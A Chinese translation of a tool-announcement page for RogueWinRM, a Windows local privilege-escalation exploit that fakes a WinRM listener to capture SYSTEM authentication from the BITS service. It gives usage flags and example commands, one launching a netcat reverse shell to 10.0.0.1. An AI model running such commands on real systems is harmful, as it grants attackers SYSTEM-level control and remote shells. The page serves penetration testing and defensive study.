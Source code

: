 # RogueWinRM:从服务帐户到系统的 Windows 本地权限提升

> 原文：<https://kalilinuxtutorials.com/roguewinrm/>

[![RogueWinRM : Windows Local Privilege Escalation From Service Account To System](img//91bf3129a8cb5019bcd22f9719a9859c.png "RogueWinRM : Windows Local Privilege Escalation From Service Account To System")](https://1.bp.blogspot.com/-JQTnTPqVHEQ/X_RvHmEj4sI/AAAAAAAAIP4/_wpxqGToMSsdtWMzmk8VOrcv1pskdFcLwCLcBGAsYHQ/s728/RogueWinRM%25281%2529.png)

**RogueWinRM** 是一个本地权限提升漏洞，如果 WinRM 服务没有运行，它允许从服务帐户(具有 SeImpersonatePrivilege)升级到本地系统帐户(**默认在 Win10 上，但在 Windows Server 2019** 上没有)。

简而言之，它将侦听端口 5985 上的传入连接，假装一个真正的 WinRM 服务。这只是一个最小的 web 服务器，它将尝试与任何试图连接到该端口的服务协商 NTLM 认证。
然后 BITS 服务(作为本地系统运行)被触发，它将尝试对我们的恶意监听器进行身份验证。一旦我们的恶意侦听器通过身份验证，我们就能够模拟本地系统用户，使用这些权限生成任意进程。

您可以在此链接找到关于此漏洞的完整技术描述->[https://decoder . cloud/2019/12/06/we-though-they-be-potato-but-they-be-beans/](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)

**用途**

**RogueWinRM

强制参数:
-p:程序启动

可选参数:
-a:要传递给程序的命令行参数(默认为空)
-l:监听端口(默认为 5985 WinRM)
-d:启用调试输出**

**例题**

![](img//1a32ceec1bc9a551839c718bb38cacaa.png)

*   运行交互式 cmd:

**RogueWinRM.exe-p C:\ windows \ system32 \ cmd . exe**

*   运行 netcat 反向 shell:

**RogueWinRM.exe-p C:\ windows \ temp \ nc64 . exe-a " 10 . 0 . 0 . 1 3001-e cmd "**

**信用**

*   安东尼奥·科科马齐
*   [Andrea Pierini](https://twitter.com/decoder_it)
*   罗伯托(0xea31)

[**Download**](https://github.com/antonioCoco/RogueWinRM)